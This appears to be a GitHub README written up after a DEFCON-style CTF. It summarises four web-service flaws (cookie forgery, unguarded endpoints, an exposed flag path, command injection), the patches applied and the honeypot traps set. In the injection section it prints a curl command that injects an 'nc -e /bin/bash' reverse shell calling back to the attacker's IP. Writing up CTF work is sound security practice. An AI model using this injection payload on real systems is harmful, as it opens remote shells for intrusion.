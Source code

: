 # Attack-Patch-Prevail-48h-Defcon-Style-CTF-Showdown

### Author

- **Panagiotis Vardalas**
### *From Pawn to Immunity*

A full-cycle exploitation and hardening of a vulnerable web service during a 48-hour DEFCON-style Capture The Flag. This repository documents the four vulnerabilities I discovered and exploited live against other teams, alongside the patches and countermeasures I deployed to transform the same service into a fortified, trap-laden stronghold.

---
# Try the game your self
## Find vulnerabillities in the vulnerable version, or try to pawn my patched version (if you can 😊)
* [Vulnerable Version](https://vuln.panos.cloud)
* [Patched Version](https://patched.panos.cloud)
---

## 🛠️ Overview

In a high-stakes, time-constrained CTF environment, I identified and weaponized four critical vulnerabilities in a target web service. Each exploit was then fully patched and reinforced to not only block future attacks but actively disrupt and mislead adversaries attempting to exploit the same vectors. The result: a hardened service that became more dangerous to attack than to ignore.

---

## 🔍 Discovered Vulnerabilities & Patch Strategies

### 1. Privilege Escalation via Cookie Forgery
- **Exploit:**  
  Manually setting a cookie with `admin=1` granted full administrative access without validation.

- **Patch:**  
  Implemented cookie signing using HMAC-based validation. Every cookie is verified server-side using a secret key to prevent tampering.

---

### 2. Restricted Action Access via Direct Endpoint Call
- **Exploit:**  
  Direct requests to `/action.php` allowed any user to add restricted items (including the flag) to their cart.

- **Patch:**  
  Enforced backend role-based access control. Admin checks were implemented at the logic level, not just in the frontend or routing layer.

---

### 3. Direct Flag Exposure via Static Path
- **Exploit:**  
  Accessing `/key` revealed the flag directly due to exposed static file routing.

- **Patch:**  
  The application was restructured around a centralized router (`index.php`) that handles all access through controlled dispatch, preventing direct file exposure.

---

### 4. Remote Code Execution via Unsafe Command Execution
- **Exploit:**  
  A function used input to build shell commands like:  
  ```bash
  curl -X POST http://$ip:8005/actions.php -d "system=nc+$my-ip+4444+-e+/bin/bash"
  ```
  This enabled arbitrary command execution and allowed backdoors for submitting flags even if the service appeared down.

- **Patch:**  
  Introduced a strict whitelist of allowable commands and validated inputs thoroughly. The handler was refactored to eliminate dynamic shell calls where not explicitly needed.

---

## 🧠 Advanced Defensive Engineering & Active Traps

Beyond patching, I actively weaponized the service to turn attack attempts into disadvantages for my opponents.

---

## 🕳️ Honeypot Traps

- **Trap 1 – `/key`:**  
  Instead of returning a 403/404, this endpoint returned a **39KB payload** of pseudo-flag data after a **deliberate delay**, poisoning automated tools and overloading network analysis with useless but believable data.

- **Trap 2 – Patched `/action.php`:**  
  Unauthorized calls triggered **high-latency responses** and **large data dumps** designed to resemble valid flags, stalling and confusing enemy scripts.

---

## 📉 Impact on Opponents

- Enemy **PCAP files** grew to **multiple gigabytes**, bloated with meaningless data.
- Several teams **submitted fake flags** generated by the trap payloads.
- **Automated daemons crashed** or stalled due to high latency and bandwidth/resource exhaustion.
- Attacking my service **became a liability**, shifting the risk/cost balance in my favor.

---

## ⚔️ Conclusion

This repository showcases the offensive and defensive techniques used during a **48-hour DEFCON-style CTF** to fully compromise, secure, and militarize a web service.  
In a real-time, adversarial environment, success comes not only from breaching systems — but from **securing and turning them into traps** that actively punish attackers.
